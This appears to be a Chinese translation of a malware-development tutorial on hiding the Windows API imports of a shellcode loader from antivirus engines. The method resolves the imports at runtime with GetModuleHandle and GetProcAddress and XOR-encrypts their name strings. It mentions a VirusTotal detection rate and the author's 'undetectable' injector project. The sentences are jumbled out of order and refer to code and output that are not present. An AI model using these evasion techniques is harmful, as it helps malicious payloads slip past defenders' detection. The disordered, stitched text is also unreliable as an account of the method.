{width="80%"}

<https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection>

所以，66 个 AV 引擎中有 22 个把我们的文件检测为恶意。

其他函数也可以被混淆，以减少检测到我们恶意软件的 AV 引擎数量。

为了得到更好的效果，我们可以把载荷加密与随机密钥结合起来，并用另外的密钥混淆函数等等。

Source code in Github

VirtualAlloc

RtlMoveMemory

VirtualProtect

WaitForSingleObject

作为我这项研究的成果，我的项目 peekaboo 出现了。

一个简单、无法检测的 shellcode 与代码注入器启动器示例。

AV 行业已经分析过恶意软件所使用的大多数外部 DLL 和函数。

这是一个很好的指标，可以用来判断这个二进制文件是否是恶意的。

所以 AV 引擎通过查看其导入地址来分析磁盘上的 PE 文件。

那么，作为恶意软件开发者的我们能对此做些什么呢？这正是函数调用混淆登场的地方。

函数调用混淆（Function Call Obfuscation）是一种在运行时隐藏你要调用的 DLL 和外部函数的方法。

为此，我们可以使用标准的 Windows API 函数 `GetModuleHandle` 和 `GetProcAddress`。

前者返回指定 DLL 的句柄，后者则让你获得从该 DLL 导出的、你所需要的那个函数的内存地址。

让我给你举个例子。

那么这里重要的是什么？

所以 AV 引擎在静态分析时看不到它。

我们来看看如何在实践中使用这项技术。

所以这段代码包含了执行载荷的非常基础的逻辑。

导入地址表里没有 `VirtualAlloc` 了。看起来不错。

但是，有一个注意事项。

我们来做一下。运行：

如你所见，它就在那里。

那么我们能对此做些什么呢？

办法是我们可以把它去掉。

我们可以使用之前用过的 XOR 函数来加密/解密，让我们就这么做。

为此我们需要一个加密密钥和一个字符串。

如你所见，strings 检查里没有 `VirtualAlloc` 了。

这就是你实际上可以混淆代码中任意函数的方法。

CreateThread

XOR
